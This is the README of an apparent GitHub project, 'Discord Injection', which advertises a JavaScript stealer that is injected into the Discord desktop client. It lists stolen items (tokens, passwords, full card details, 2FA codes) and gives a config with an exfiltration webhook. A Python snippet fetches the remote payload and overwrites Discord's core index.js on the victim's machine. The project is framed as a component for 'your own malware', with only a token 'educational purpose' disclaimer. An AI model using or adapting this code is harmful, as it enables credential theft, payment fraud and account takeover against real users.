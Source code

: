 <h1 align="center">
  Discord Injection 💉
</h1>

<h2 align="center">
  Steal all critical info from victims!
</h2>

<p align="center">
  Discord Injection is a simple .js script that you can use for your own malware to inject into discord which comes with many features!
</p>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord%20atom.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Injection&metric=ncloc" </a>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Injection?color=7F9DE0&label=Stars&style=flat-square" </a>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Injection?color=7F9DE0&label=Forks&style=flat-square" </a>
</p>

<h4 align="center">
  <a href="https://cheataway.com">🌌・Discord</a>
  <a href="https://github.com/Rdimo/Discord-Injection#configure-discord-injection">💉・Setting up the injection</a>
  <a href="https://github.com/Rdimo/Discord-Injection#license">💻・License</a>
  <a href="https://github.com/Rdimo/Discord-Injection#changelog">📜・ChangeLog</a>
</h4>

<h2 align="center">
  Discord-Injection was made by

Love ❌ code ✅

</h2>

---

## :fire: Features

✔ Customizable \
✔ Obfuscated (not advanced but the best it can go cuz of string replacement) \
✔ If Injection got removed it injects again! \
✔ Works on both Windows and Darwin! \
✔ Auto buy nitro! (toggleable) \
✔ Pings on info stolen! (toggleable) \
✔ Discord 2FA Codes for accounts with 2FA enabled. \
✔ Disables login thru QR code! \
✔ Grabs Token, Nitro status, Billing Status + more! \
✔ Grabs Email & Password for their account. (updates if they change it) \
✔ Grabs whole credit card (if they enter one while injection is in) \
✔ Notifies when paypal account has been added!

---

## 🚀・Configure Discord Injection!

You'll need [Git](https://git-scm.com) to start off!

```sh-session
git@2.17.1 or higher
```

### 1. From your command line, clone and configure discord-injection:

```bash
# Clone this repository
$ git clone https://github.com/rdimo/Discord-injection.git

```

Copy the raw url of the [injection](./injection.js) and then paste it in your code

[forking](https://github.com/Rdimo/Discord-injection/fork) this repo is also a viable way but make sure to go into the code and change the config to your preferences! ⇣⇣⇣

```javascript
const config = {
    auto_buy_nitro: true, //automatically buys nitro when the victim adds credit card or paypal account or tries to buy nitro themselves
    ping_on_run: false, //sends whatever value you have in ping_val when you get a run/login
    ping_val: '@everyone', //change to @here or <@ID> to ping specific user if you want, will only send if ping_on_run is true
    embed_name: 'Discord Injection', //name of the webhook thats gonna send the info
    embed_icon: 'https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord atom.png'.replace(/ /g,'%20'), //icon for the webhook thats gonna send the info
    embed_color: 8363488, //color for the embed, needs to be hexadecimal (just copy a hex and then use https://www.binaryhexconverter.com/hex-to-decimal-converter to convert it)
    webhook: '%WEBHOOK%', //your discord webhook there obviously
    injection_url: 'https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js', //injection url for when it reinjects

    ... //rest of the config you should NOT touch
};
```

> Don't quite understand how to set it up? [Click me!](https://github.com/Rdimo/Discord-Injection#want-to-use-it-but-dont-know-shit-about-coding)

## 🎈・Code example

Example of how you can implement this injection into your own malware

```py
import os
import re
import requests
webhook = 'https://discord.com/apwebhooks/123456789/abcdefghijklmnopqrstuvwxyz'

def inject():
    for _dir in os.listdir(os.getenv('localappdata')):
        if 'discord' in _dir.lower():
            for __dir in os.listdir(os.path.abspath(os.getenv('localappdata')+os.sep+_dir)):
                if re.match(r'app-(\d*\.\d*)*', __dir):
                    abspath = os.path.abspath(os.getenv('localappdata')+os.sep+_dir+os.sep+__dir)
                    f = requests.get("https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js").text.replace("%WEBHOOK%", webhook)
                    with open(abspath+'\\modules\\discord_desktop_core-2\\discord_desktop_core\\index.js', 'w', encoding="utf-8") as indexFile:
                        indexFile.write(f)
                    os.startfile(abspath+os.sep+_dir+'.exe')

if __name__ == "__main__":
    inject()
```

## 👴・Want to use it but don't know shit about coding?

No worries, [Hazard-Token-Grabber-V2](https://github.com/Rdimo/Hazard-Token-Grabber-V2) is a stealer that uses this injection + steals more!

## 🤝・Contributing

Any ideas on how to improve the injection? Or just think you got something you want to see being added? [Open a new issue](https://github.com/rdimo/Discord-injection/issues)!

Found a bug? please please please [Open a new issue](https://github.com/rdimo/Discord-injection/issues) and tell me about it so I can fix it asap

## 🎉・Upcoming/Todo

- Grab ip, name etc...
- Fix bugs
- More settings

## :seedling:・Inspiration/Credits

Discord-Injection is heavily inspired by [stanleys](https://github.com/Stanley-GF) injection but has been upgraded quite alot since \
A few snippets are from his injection so huge cred to stan

- [his injection](https://github.com/Stanley-GF/Arizona/blob/main/src/injection/injection-clean.js)

## 📄・License

This project is licensed under the GNU General Public License v3.0 License - see the [LICENSE.md](./LICENSE) file for details

・Educational purpose only and all your consequences caused by you actions is your responsibility

・Selling this **Free** injection is forbidden

・If you make a copy of this/or fork it, it **must** be open-source and have credits linking to this repo

## 💭・ChangeLog

```diff
v0.0.8 ⋮ 2022-04-15
- Removed 2fa code grabbing since discord fixed it

v0.0.7 ⋮ 2022-04-14
+ Accidently had 2 hypesquad brilliance

v0.0.6 ⋮ 2022-04-13
+ Discriminator doesn't get mixed up with the ID

v0.0.5 ⋮ 2022-04-08
+ Formatting
+ bug fixes

v0.0.4 ⋮ 2022-03-31
+ Cleanup

v0.0.3 ⋮ 2022-03-31
+ Fixed Typo

v0.0.2 ⋮ 2022-03-30
+ Added new seperate function that sends out when a nitro code has been purchased
+ Fixed 2fa code grabber
+ Fixed auto nitro buyer

v0.0.1 ⋮ 2022-03-28
+ Added BetterDiscord support
+ Added dead code into obfuscation to protect even more
- Re-added status code checker since I Accidently removed it
```
